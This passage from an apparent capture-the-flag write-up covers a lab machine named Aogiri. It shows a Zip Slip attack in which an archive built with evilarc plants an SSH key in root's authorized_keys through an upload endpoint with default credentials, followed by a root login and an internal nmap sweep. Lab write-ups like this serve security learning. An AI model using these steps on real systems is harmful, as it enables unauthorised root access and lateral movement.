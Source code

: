The `secret.jpg` file seems to be just a troll, I tried `steghide`, `binwalk` and other CTF stego tools and didn't find any hidden information.

I'm in a docker container, as per the `.dockerenv` file and the IP address `172.20.0.10`:

```
kaneki@Aogiri:/$ ls -la
total 116
-rwxr-xr-x   1 root root    0 Dec 13 13:45 .dockerenv

kaneki@Aogiri:/$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.20.0.10  netmask 255.255.0.0  broadcast 172.20.255.255
        ether 02:42:ac:14:00:0a  txqueuelen 0  (Ethernet)
        RX packets 54446  bytes 6369464 (6.3 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 44912  bytes 56773469 (56.7 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

### Unintended way to root on Aogiri container

Instead of using the SSH keys found in the backups directory I can use the Zip Slip vulnerability to upload my own SSH publicy key to the root directory's SSH folder.

```
# cp /root/.ssh/id_rsa.pub authorized_keys
# python evilarc.py -f root.zip -o unix -p "../../../../../../root/.ssh" authorized_keys
Creating root.zip containing ../../../../../../../../../../../../../../root/.ssh/authorized_keys
# curl -u admin:admin -F 'data=@root.zip' http://10.10.10.101:8080/upload
```

I can now log in as root:

```
# ssh 10.10.10.101
Last login: Tue May  7 00:06:28 2019 from 172.20.0.1
root@Aogiri:~# id
uid=0(root) gid=0(root) groups=0(root)
```

### Getting access to kaneki-pc

Kaneki's ssh directory contains two entries in the `authorized_keys`:

```
kaneki@Aogiri:~/.ssh$ cat authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDhK6T0d7T[...] kaneki_pub@kaneki-pc
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDsiPbWC8f[...] kaneki@Aogiri
```

I noticed that there is a different username: `kaneki_pub`

There's most likely another container running, I found it by uploading a statically compiled copy of nmap and scanning 172.20.0.0/16:

```
kaneki@Aogiri:~$ ./nmap -sP 172.20.0.0/16

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2019-05-07 02:35 UTC
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for Aogiri (172.20.0.1)
Host is up (0.00039s latency).
Nmap scan report for Aogiri (172.20.0.10)
Host is up (0.00027s latency).
Nmap scan report for 64978af526b2.Aogiri (172.20.0.150)
Host is up (0.00029s latency).
```

